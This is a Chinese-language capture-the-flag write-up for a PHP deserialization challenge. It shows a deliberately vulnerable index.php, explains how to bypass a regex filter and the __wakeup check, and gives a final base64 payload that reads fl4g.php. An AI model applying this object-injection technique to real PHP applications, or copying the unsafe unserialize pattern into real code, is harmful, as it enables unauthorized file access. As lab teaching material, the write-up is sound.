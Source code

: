# Web_php_unserialize

我们需要在 index.php 代码中找到漏洞,从而拿到 flag:

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 

?>
```

分析一下, 当用 `GET` 方式传入 `var` 值, `var` 被进行 `base64_decode()`, 然后用 `preg_match` 检查如果匹配 `o/c:数字:` (o, c 不分大小写) 将返回 `stop hacking!`, 若不匹配, 进行 `serialize($var)`. 那么我们需要绕过 `preg_math`.

在 class `Demo` 里, 当一个新的定义 `Demo` 出现, `__construct` 就实现 `$this->file = $file`. 当结束, `__destruct` 显示 `$this->file` 的内容. 因为 flag 在 `fl4g.php` 里, 那么如果我们可以定义个新的 `Demo("fl4g.php")` 就可以读 `fl4g.php`. 但是, 当 `serialize($var)` 实现会使 `__wakeup` 实现, 如果 `$this->file` 不等于 `index.php` 就会把它换成 `index.php`. 所以我们要绕过 `__wakeup`.

脚本制造 payload:

```php
<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
}
$var = new Demo("fl4g.php");
echo serialize($var);
?>
```

需要注意一点, 因为 `$file` 是 `private` 属性, 所以我们要改一点我们的 `payload` 通过以下定义:

`\x00 + 类名 + \x00 + 变量名` 反序列化出来的是 `private` 变量, `\x00 + * + \x00 + 变量名` 反序列化出来的是 `protected` 变量, 直接 `变量名` 反序列化出来的是 `public` 变量.

我用 `Burp Suite` 的 `Decoder` 进行修改显示 `Hex` 的 `\x00`, 绕过 `preg_match`:

`?var=O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}`

绕过 `__wakeup` (在 `PHP5 < 5.6.25， PHP7 < 7.0.10` 的版本存在 `wakeup` 的漏洞): 

`?var=O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}`

然后进行 `base64_encode`, 得出最后 payload:

`?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`
